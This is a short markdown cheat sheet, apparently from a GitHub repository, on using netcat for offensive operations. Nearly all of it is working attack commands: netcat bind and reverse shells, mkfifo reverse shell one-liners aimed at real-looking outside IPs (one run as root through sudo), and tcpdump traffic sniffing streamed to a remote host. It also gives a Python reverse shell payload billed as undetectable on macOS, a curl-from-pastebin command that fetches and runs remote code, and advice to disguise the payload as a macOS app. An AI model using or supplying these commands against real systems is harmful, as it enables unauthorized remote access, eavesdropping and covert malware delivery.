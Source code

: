 # Netcat

Kali:

	nc MACOS/Windows-IP 8888  -e /bin/bash (connect)
	nc  -lvvp 8888 -e /bin/bash (listen)

MacOS:

	nc KALI-IP 8888 (connect - cannot execute -e directly)
    nc -l 8888 (listen - cannot execute -e directly)

Windows:

	nc KALI-IP 8888 -e cmd.exe (connect)
	nc  -lvvp 8888 -e cmd.exe (listen)

## Reverse Shell

Shell:

	mkfifo /tmp/f; nc 192.168.0.110 2222 0</tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

Bash:

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

Bash: (root)

	mkfifo /tmp/f; nc 51.210.47.127 1234 0</tmp/f | sudo /bin/bash -i >/tmp/f 2>&1; rm /tmp/f

## Netcat & TCPDump:

### Data in file:

Sniff traffic from a mac with netcat (default on macos) and use tcpdump (default on macos) to send the traffic to Kali then use wireshark to analyse that traffic:

	/usr/sbin/tcpdump -w - | nc KALI_IP 7777 (on mac)
	nc -l -p 7777 | tee /tmp/sniffed_output.pcapng (on kali)

### Data in real time:

On kali:

	mkfifo /tmp/wiretap
	nc -l -p 9999 > /tmp/wiretap
	wireshark -k -i /tmp/wiretap

On mac:

	/usr/sbin/tcpdump -i <interface> -w - | nc 1.2.3.4 9999

## Netcat & Payload:

### Option 1:

Create an indetectable payload in python and use it to get a shell on every macos system:

	nc -l -p 8080 (listening on kali)

Create a python payload:

	nano payload.py (and paste that script changing the ip)
	import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.2.3.4",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);

Then, just have to execute that script on macos computer.

	sudo python payload.py

### Option 2:

An other option is to send the script online with a pastebin web service:

	https://pastebin.com

And execute this command on the macos computer:

	curl https://pastebin.com/raw/P6p9WwAT | python - &

### Option 3:

Create a MacOs application to run the script on background with platypus:

	https://sveinbjorn.org/platypus